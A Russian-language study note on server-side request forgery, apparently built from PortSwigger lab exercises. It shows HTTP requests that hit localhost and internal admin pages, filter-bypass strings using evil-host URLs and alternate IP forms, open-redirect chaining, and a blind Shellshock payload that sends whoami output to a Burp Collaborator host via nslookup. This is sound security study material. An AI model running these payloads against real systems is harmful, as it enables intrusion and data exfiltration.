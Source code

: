 [Server-side request forgery](https://portswigger.net/web-security/ssrf)

[SSRF Cheat Sheet & Bypass Techniques](https://highon.coffee/blog/ssrf-cheat-sheet)

## Распространенные атаки SSRF
### SSRF против самого сервера
При атаке SSRF на сам сервер злоумышленник заставляет приложение сделать HTTP-запрос обратно на сервер, на котором размещено приложение, через его loopback сетевой интерфейс. Обычно это включает в себя предоставление URL с именем хоста, например `127.0.0.1` или `localhost`.

Запрос к API для проверки наличия товара на складе:
`POST /product/stock HTTP/1.0 Content-Type: application/x-www-form-urlencoded `
`Content-Length: 118 `
`stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1`

В этой ситуации злоумышленник может изменить запрос, чтобы указать URL, локальный для самого сервера:
`POST /product/stock HTTP/1.0 `
`Content-Type: application/x-www-form-urlencoded `
`Content-Length: 118 `
`stockApi=http://localhost/admin`

### SSRF на другие внутренние системы
`POST /product/stock HTTP/1.0`
`Content-Type: application/x-www-form-urlencoded`
`Content-Length: 118`
`stockApi=http://192.168.0.68/admin`

## Обход распространенных способов защиты от SSRF
### SSRF с входными фильтрами на основе черных списков
Обход фильтра:
- альтернативные IP-представления `127.0.0.1`, например `2130706433`, `017700000001` или `127.1`
- регистрация собственного доменного имени, которое разрешается в `127.0.0.1`. Для этой цели можно использовать `spoofed.burpcollaborator.net`
- Обфускация заблокированных строк с помощью кодировки URL или изменения регистра

### SSRF с входными фильтрами на основе белых списков
Спецификация URL содержит ряд особенностей, которые могут быть упущены при реализации специального разбора и проверки URL:
- учетные данные в URL перед именем хоста, используя символ `@`:
	`https://expected-host@evil-host`
- символ `#` для обозначения фрагмента URL:
	`https://evil-host#expected-host`
- использовать иерархию именования DNS для размещения требуемого ввода в полностью определенном подконтрольном DNS-имени:
	`https://expected-host.evil-host`
- URL-кодировать символы, чтобы запутать код разбора URL. Это особенно полезно, если код, реализующий фильтр, обрабатывает кодированные символы URL иначе, чем код, выполняющий внутренний HTTP-запрос
- использовать комбинации этих методов вместе

### Обход фильтров SSRF через открытое перенаправление
Есть функционал перехода на следующую страницу, которая содержит уязвимость `open redirection`, при которой URL:
`GET /product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080`
возвращает перенаправление на:
`http://192.168.0.12:8080`

Используем уязвимость для обхода фильтра URL и выполняем SSRF:
`POST /product/stock HTTP/1.1`
`Host: ac951fab1ffef84ac0f0709400cb00a1.web-security-academy.net`
`Content-Type: application/x-www-form-urlencoded`
`Content-Length: 88`

`stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin`

Этот SSRF-эксплойт работает потому что приложение сначала проверяет, что предоставленный URL `stockAPI` находится в разрешенном домене, что и происходит. Затем приложение запрашивает предоставленный URL, что вызывает открытое перенаправление. Оно следует перенаправлению и делает запрос на внутренний URL по выбору злоумышленника.

## Слепые SSRF ^91df93

Например, на сайте используется аналитическое программное обеспечение, которое получает URL, указанный в заголовке `Referer`, когда загружается страница продукта:
`GET /product?productId=19 HTTP/1.1`
`Host: ac7a1ffc1e47dae5c097263d00ee00b7.web-security-academy.net`
`Referer: https://ac7a1ffc1e47dae5c097263d00ee00b7.web-security-academy.net/`

Вызов запроса к серверу Burp Collaborator:
`GET /product?productId=19 HTTP/1.1`
`Host: ac7a1ffc1e47dae5c097263d00ee00b7.web-security-academy.net`
`Referer: http://2wznfi7jzcg9hkmhurnhykpjfal69v.burpcollaborator.net`

**Blind SSRF + shellshock**
Shellshock payload: `() { :;}; echo "pwned"`

Пример запроса:
`GET /product?productId=1 HTTP/1.1`
`Host: ac901f3e1ea49cd3c054f7d2005b00d1.web-security-academy.net`
`User-Agent: () { :;}; /usr/bin/nslookup $(whoami).6fmtccqu58psg7aj77qad8m9j0psdh.burpcollaborator.net`
`Referer: http://192.168.0.§1§:8080`

## Поиск скрытой поверхности атаки для уязвимостей SSRF
### Частичные URL-адреса в запросах
Иногда приложение помещает в параметры запроса `только имя хоста или часть пути URL`. Затем переданное значение включается на стороне сервера в полный URL, который запрашивается. Если значение легко распознается как имя хоста или путь URL, то потенциальная поверхность атаки может быть очевидной. Однако возможности использования SSRF могут быть ограничены, поскольку вы не контролируете весь URL, который запрашивается.

### URL в форматах данных
Некоторые приложения передают данные в форматах, спецификация которых позволяет включать URL, которые могут быть запрошены анализатором данных для данного формата. Очевидным примером этого является формат данных `XML`, который широко используется в веб-приложениях для передачи структурированных данных от клиента к серверу. Когда приложение принимает данные в формате `XML` и анализирует их, оно может быть уязвимо для `XXE-инъекции` и, в свою очередь, уязвимо для SSRF через `XXE`.

### SSRF через заголовок Referer
Некоторые приложения используют аналитическое программное обеспечение на стороне сервера, которое отслеживает посетителей. Такое ПО часто регистрирует заголовок `Referer` в запросах, поскольку он представляет особый интерес для отслеживания входящих ссылок. Часто аналитическое программное обеспечение фактически посещает любой сторонний URL, который появляется в заголовке `Referer`. Обычно это делается для анализа содержимого ссылающихся сайтов, включая якорный текст, который используется во входящих ссылках. В результате, заголовок `Referer` часто представляет собой плодотворную поверхность для атаки уязвимостей SSRF (см. [[ssrf#^91df93|Слепые SSRF]]).
